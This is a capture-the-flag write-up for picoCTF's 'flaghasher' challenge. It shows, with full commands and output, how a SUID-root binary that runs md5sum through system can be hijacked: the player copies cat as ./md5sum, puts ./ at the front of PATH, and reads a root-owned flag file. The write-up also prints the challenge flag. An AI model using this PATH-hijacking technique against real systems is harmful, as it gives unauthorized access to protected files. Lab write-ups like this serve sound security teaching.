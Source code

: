 # Description

Here is a binary that has enough privilege to read the content of the flag file but will only let you know its hash. If only it could just give you the actual content!Connect using `ssh @shape-facility.picoctf.net` with the password,  and run the binary named "flaghasher".You can get a copy of the binary if you wish: `scp @shape-facility.picoctf.net:~/flaghasher .`

# Solution
It seems that the binary has SUID bit set, so it will allow us to execute stuff as root if we are able to manipulate it's behavior.

```
ctf-player@pico-chall$ ls -la | grep -i flag
-rwsr-xr-x 1 root       root       18312 Mar  6 03:45 flaghasher
```

If we execute the binary it returns the md5sum for the file /root/flag.txt

```
ctf-player@pico-chall$ ./flaghasher
Computing the MD5 hash of /root/flag.txt....

d41d8cd98f00b204e9800998ecf8427e
```

After reversing the binary we noticed that it loads a string to be used in system at offset 013a0.

![Pasted image 20250330182216.png](./attachments/Pasted%20image%2020250330182216.png)

This string contains the following command

```
[0x00001329]> ps @0x2040
/bin/bash -c 'md5sum /root/flag.txt'
```

With this in mind we can abuse the $PATH variable using a binary named md5sum in our current directory but with different functionality.

We are going to start this attack by copying the cat command to our current directory and renaming it md5sum.

```
ctf-player@pico-chall$ cp /bin/cat md5sum
ctf-player@pico-chall$ chmod u+x md5sum
ctf-player@pico-chall$ ls
flaghasher  md5sum
```

Now we add our current path to the PATH variable ...

```
ctf-player@pico-chall$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
ctf-player@pico-chall$ export PATH=./:$PATH
ctf-player@pico-chall$ echo $PATH
./:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

After that, we were successfully able to get the binary flaghasher to execute cat /root/flag.txt.

```
ctf-player@pico-chall$ ./flaghasher
Computing the MD5 hash of /root/flag.txt....

picoCTF{sy5teM_b!n@riEs_4r3_5c@red_0f_yoU}
```
